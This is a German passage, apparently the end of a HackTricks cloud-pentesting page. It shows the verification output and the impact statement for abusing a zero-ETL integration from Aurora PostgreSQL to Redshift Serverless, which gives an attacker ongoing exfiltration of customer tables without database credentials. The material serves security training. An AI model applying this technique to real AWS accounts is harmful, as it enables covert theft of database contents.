- SVV_INTEGRATION zeigte integration_id 377a462b-c42c-4f08-937b-77fe75d98211 und den Zustand PendingDbConnectState vor der DB-Erstellung.
- Nach CREATE DATABASE FROM INTEGRATION zeigte das Auflisten der Tabellen das Schema ztl und die Tabelle customers; eine Abfrage von ztl.customers gab 2 Zeilen zurück (Alice, Bob).

Auswirkung: Kontinuierliche nahezu Echtzeit-Exfiltration ausgewählter Aurora PostgreSQL-Tabellen in Redshift Serverless, kontrolliert vom Angreifer, ohne Verwendung von Datenbank-Anmeldeinformationen, Sicherungen oder Netzwerkzugriff auf den Quell-Cluster.


{{#include ../../../banners/hacktricks-training.md}}
